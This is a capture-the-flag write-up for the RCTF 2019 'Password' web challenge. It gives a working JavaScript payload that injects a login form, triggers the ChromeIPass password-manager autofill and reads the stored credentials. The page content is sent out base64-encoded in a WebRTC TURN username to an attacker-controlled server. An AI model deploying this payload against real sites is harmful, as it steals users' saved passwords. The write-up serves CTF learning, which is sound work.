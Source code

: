 ## Password (869 pts) (Web)

![](challenge.png)

Done with https://github.com/patriksletmo

This was a followup to [jail](../jail/Readme.md), so read that one first.

The description hints at a password manager that modifies the page. Lets try adding a login form and returning the resulting page in the same way as before. The only difference beeing that the page is to big for the username field, so we have to slice it and do it in multiple steps.


```html
<script>
    function x() {
        var auth = document.body.innerHTML.slice(-300); // Change the value to get different parts of the page

        function gotDescription(desc) {
            begin = window.performance.now();
            candidates = [];
            pc.setLocalDescription(desc);
        }

        function noDescription(error) {
            console.log('Error creating offer: ', error);
        }
        var pc = new RTCPeerConnection({
            "iceServers": [{
                "urls": ["turn:my.ip.address:3478"],
                "username": btoa(auth),
                "credential": "password1"
            }],
            "iceTransportPolicy": "all",
            "iceCandidatePoolSize": "0"
        });
        pc.createOffer({
            offerToReceiveAudio: 1
        }).then(gotDescription, noDescription);
    }

    function timer() {
        setTimeout(x, 1000);
    }
</script>
<html>

<body onload="timer()">
    <form id="" method="POST"><input type="text" autocomplete="on" name="username" id="username" /><input type="password" autocomplete="on" name="password" id="password" /><input type="submit" value="gö" /> </form>
</body>

</html>
```

This is what the full page looks like in the admins browser

```html
    <form id="" method="POST">
        <input type="text" autocomplete="off" name="username" id="username" data-cip-id="username" class="cip-ui-autocomplete-input"><span role="status" aria-live="polite" class="cip-ui-helper-hidden-accessible"></span>
        <input type="password" autocomplete="on" name="password" id="password" data-cip-id="password">
        <input type="submit" value="g�"> </form>
    <div class="cip-genpw-icon cip-icon-key-small" style="z-index: 2; top: 10px; left: 341px;"></div>
    <div class="cip-ui-dialog cip-ui-widget cip-ui-widget-content cip-ui-corner-all cip-ui-front cip-ui-draggable" tabindex="-1" role="dialog" aria-describedby="cip-genpw-dialog" aria-labelledby="cip-ui-id-1" style="display: none;">
        <div class="cip-ui-dialog-titlebar cip-ui-widget-header cip-ui-corner-all cip-ui-helper-clearfix"><span id="cip-ui-id-1" class="cip-ui-dialog-title">Password Generator</span>
            <button class="cip-ui-button cip-ui-widget cip-ui-state-default cip-ui-corner-all cip-ui-button-icon-only cip-ui-dialog-titlebar-close" role="button" aria-disabled="false" title="�"><span class="cip-ui-button-icon-primary cip-ui-icon cip-ui-icon-closethick"></span><span class="cip-ui-button-text">�</span></button>
        </div>
        <div id="cip-genpw-dialog" class="cip-ui-dialog-content cip-ui-widget-content" style="">
            <div class="cip-genpw-clearfix">
                <button id="cip-genpw-btn-generate" class="b2c-btn b2c-btn-primary b2c-btn-small" style="float: left;">Generate</button>
                <button id="cip-genpw-btn-clipboard" class="b2c-btn b2c-btn-small" style="float: right;">Copy to clipboard</button>
            </div>
            <div class="b2c-input-append cip-genpw-password-frame">
                <input id="cip-genpw-textfield-password" type="text" class="cip-genpw-textfield"><span class="b2c-add-on" id="cip-genpw-quality">123 Bits</span></div>
            <label class="cip-genpw-label">
                <input id="cip-genpw-checkbox-next-field" type="checkbox" class="cip-genpw-checkbox"> also fill in the next password-field</label>
            <button id="cip-genpw-btn-fillin" class="b2c-btn b2c-btn-small">Fill in &amp; copy to clipboard</button>
        </div>
    </div>
    <ul class="cip-ui-autocomplete cip-ui-front cip-ui-menu cip-ui-widget cip-ui-widget-content cip-ui-corner-all" id="cip-ui-id-2" tabindex="0" style="display: none;"></ul>
```

Which matches what the KeePass-compatible ChromeIPass extension generates. 

Apparently the extension only loads the autocomplete once you click on the username field, so we added `document.getElementById('username').click();`

This resulted in the following buttons being added

```html
<a id="cip-ui-id-3" class="cip-ui-corner-all" tabindex="-1">fake_flag (http://jail.2019.rctf.rois.io/)</a></li><li class="cip-ui-menu-item" role="presentation"><a id="cip-ui-id-4" class="cip-ui-corner-all" tabindex="-1">flag (http://jail.2019.rctf.rois.io/)</a>
```

Lets click on it with `document.getElementById('cip-ui-id-4').click()?` and then grab the content of the username and password field with `document.getElementById('username').value+':'+document.getElementById('password').value;`

```console
$ echo ZmxhZzpyY3Rme2twSHR0cF9tNHlfbGVha191cl9wd2R9|base64 -d
flag:rctf{kpHttp_m4y_leak_ur_pwd}
```

[View the full attack script](password.py)